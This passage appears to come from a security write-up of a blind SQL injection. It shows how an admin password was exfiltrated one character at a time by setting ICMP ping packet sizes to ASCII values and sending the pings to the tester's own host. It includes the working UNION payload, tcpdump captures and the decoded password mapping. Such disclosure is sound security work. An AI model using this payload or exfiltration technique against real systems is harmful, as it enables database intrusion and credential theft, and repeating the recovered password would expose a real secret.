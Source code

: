 We received a ping on the ICMP port so this confirmed we were on the right track!
```
13:18:19.051334 IP ███████ > scanner-1: ICMP echo request, id 1, seq 50, length 40
13:18:19.051374 IP scanner-1 > █████: ICMP echo reply, id 1, seq 50, length 40
```

This confirmed that we could control the arguments to the `ping` command without being able to insert database data! Unfortunately upon further code review, filtering was in place to ensure these parameters were not injectable for RCE - packet length was restricted to an integer, and the IP parameter was validated as an IPv4 address - so no chance of RCE via ping.

So finally the question was, how can we exfiltrate database data? In a classic blind SQLi you can use some sort of canary with a boolean condition such as a sleep/wait or the return of a true/false value, unfortunately we had none of these. However, we had 2 variables to play with - IP address and packet size. We needed the IP address to remain constant so that we could receive the OOB ping (true/false). Initially we started treating this as a boolean attack, by using the fact that we received a ping as a "true" vale, and non-receipt of a ping as a "false" value.

However, this was very time consuming due to aggressive rate limiting on this endpoint. We then considered the _other_ parameter - packet size. Could we set the packet size to a known value, that we could use to exfiltrate data?

Turns out the answer is yes :) We were able to exfiltrate the admin password a character at a time, by translating the letter values to ASCII, and then using these ASCII values to set the packet size on the ping request. The following SQL, executed for every character in the `SUBSTRING` command, provided us with the ability to extract a single character at a time from the admin password, and set the packet size to the ASCII value of that character. The union parameter now looks like this:

```
-1 UNION SELECT 4,'my_ip',ascii(substring(password,1,1)) from user where id=1 -- 
```

We see that the packet size received by our `tcpdump` has changed:

```
13:28:36.258314 IP ec2-18-216-97-43.us-east-2.compute.amazonaws.com > scanner-1: ICMP echo request, id 306, seq 1, length 93
```

Each ICMP packet has a base size of 8 bytes, so we need to subtract 8 from the `length 93` to get a value of `85` or an ASCII value of `U`.

We repeated this query for every character of the password, incrementing the 2nd parameter to `substring` until we did not receive a ping, at which point we knew the SQL was throwing an error and we had read all the characters. This gave us the following mapping:

```
93 	--> 85	--> U
108 	--> 100	--> d
63 	--> 55	--> 7
65 	--> 57	--> 9
102 	--> 94	--> ^
57	--> 49	--> 1
80	--> 72	--> H
80	--> 72	--> H
82	--> 74	--> J
44	--> 36	--> $
95	--> 87	--> W
50	--> 42	--> *
81	--> 73	--> I
87	--> 79	--> O
106	--> 98	--> b
105	--> 97	--> a
83	--> 75	--> K
108	--> 100	--> d
89	--> 81	--> Q
111	--> 103	--> g
81	--> 73	--> I
```
